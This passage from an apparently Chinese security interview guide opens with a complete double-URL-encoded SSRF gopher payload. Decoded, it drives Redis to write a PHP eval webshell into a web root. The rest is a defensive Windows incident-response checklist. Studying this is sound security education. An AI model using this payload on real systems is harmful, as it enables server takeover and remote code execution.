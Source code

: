 两次url编码后构造url：

http://192.168.1.1/ssrf.php?url=gopher%3a%2f%2f127.0.0.1%3a6379%2f_%25%37%33%25%36%35%25%37%34%25%32%30%25%37%38%25%32%30%25%32%32%25%35%63%25%36%65%25%35%63%25%36%65%25%35%63%25%36%65%25%33%63%25%33%66%25%37%30%25%36%38%25%37%30%25%32%30%25%34%30%25%36%35%25%37%36%25%36%31%25%36%63%25%32%38%25%32%34%25%35%66%25%35%30%25%34%66%25%35%33%25%35%34%25%35%62%25%32%37%25%37%32%25%36%35%25%36%34%25%36%39%25%37%33%25%32%37%25%35%64%25%32%39%25%33%62%25%33%66%25%33%65%25%35%63%25%36%65%25%35%63%25%36%65%25%35%63%25%36%65%25%32%32%25%30%61%25%36%33%25%36%66%25%36%65%25%36%36%25%36%39%25%36%37%25%32%30%25%37%33%25%36%35%25%37%34%25%32%30%25%36%34%25%36%39%25%37%32%25%32%30%25%32%66%25%37%36%25%36%31%25%37%32%25%32%66%25%37%37%25%37%37%25%37%37%25%32%66%25%36%38%25%37%34%25%36%64%25%36%63%25%32%30%25%32%30%25%30%61%25%36%33%25%36%66%25%36%65%25%36%36%25%36%39%25%36%37%25%32%30%25%37%33%25%36%35%25%37%34%25%32%30%25%36%34%25%36%32%25%36%36%25%36%39%25%36%63%25%36%35%25%36%65%25%36%31%25%36%64%25%36%35%25%32%30%25%37%33%25%36%38%25%36%35%25%36%63%25%36%63%25%32%65%25%37%30%25%36%38%25%37%30%25%30%61%25%37%33%25%36%31%25%37%36%25%36%35

![](/uploads/2022-08-29/dae6dfcc-c306-4d2e-b62d-0c8af07106751661737408352.png)

//第一次url解码和第二次url解码

//同理其他类似计划任务反弹和写入ssh公钥等getshell方式相似

**十九. windows应急响应时排查分析的相关细节？**

答：

可疑账号排查 lusrmgr.msc

1.检查服务器是否有弱口令。比如空口令或者密码复杂度不够。

2.高危端口是否对外开放，比如SSH服务22端口，RDP服务3389端口等。

3.查看服务器是否有可疑账号。

手工方面：lusrmgr.msc命令查看用户和组，查看是否有新增账号，隐藏账号，克隆账号。

工具方面：比如利用D盾等工具来检测隐藏账号。

4.结合日志分析 eventvwr.msc 查看管理员登录时间，相关事件是否有异常。

敏感事件ID：

4624 登录成功

4625 登录失败

4672 使用超级管理员进行登录

4720 创建用户

5.使用query user查看当前系统的会话，比如查看是否有人使用远程登录服务器。

可疑进程和服务排查 taskmgr services.msc

1.查看CPU，内存，网络等资源是否有可疑状况。比如CPU占用率过高可能是中了挖矿病毒，磁盘空间大量占用可能是脚本或病毒大量生成和复制隐藏文件。

2.检查进程名

某些进程名是大量随机的情况，比如hrlC3.tmp、hrlD5.tmp、hrl6.tmp、hrlEE.tmp等多个名字相似的进程，基本上可以断定是异常进程。

异常进程名伪装成系统进程或者说常见服务的进程名，此时可以通过进程描述来判断，并且需要手工对比。

3.检查进程和服务描述，修改时间或者数字签名是否有异常。
